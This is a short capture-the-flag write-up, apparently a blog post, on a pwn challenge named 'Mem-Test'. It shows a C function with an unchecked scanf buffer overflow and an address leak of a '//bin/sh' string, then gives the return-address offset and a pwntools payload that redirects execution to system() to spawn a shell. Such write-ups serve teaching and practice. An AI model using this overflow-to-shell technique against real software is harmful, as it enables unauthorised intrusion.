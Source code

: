 ```yaml
---
layout: post
title: Mem-Test writeup
date: 2025-08-01
categories:
  - pwn
---
```


# Mem-Test

## Source code summary

The program has a global variable called `hint`

```c
const char* hint = "//bin/sh";
```


## Vulnerability 

```c
void mem_test(char* random) {
	char buff[11];
	memset(buff, '\0', sizeof(buff));
	
	printf("\nI know that mine is fine...see? : ");
	printf("%p \n", hint + 1);
	
	puts("Let's see how good your memory is...\n");
	printf("> ");
	scanf("%s", buff);
	
	if(strncmp(buff, random, sizeof(random)) != 0) {
		puts("sorry, your memory sucks\n");
	}
	else {
		puts("good job!!\n");
	}
}
```

- the program leaks the address of the hint variable which contains `//bin/sh` 
- `buff` is a 11 byte buffer;
- `scanf` function does no check the length of the input, which causes buffer-overflow.

---
## Exploitation Plan
1. Get the leak from the program
2. overwrite the return address with the address of the `system` function that called within the `win_func` and pass the leaked address as a argument

### Step-by-step
1. Find the offset to return address from the buffer.
	`offset = 23`


##### Payload

```python
payload = flat(
	cyclic(offset),
	system, # system function address
	0x0,
	leak, # leaked address
)
```

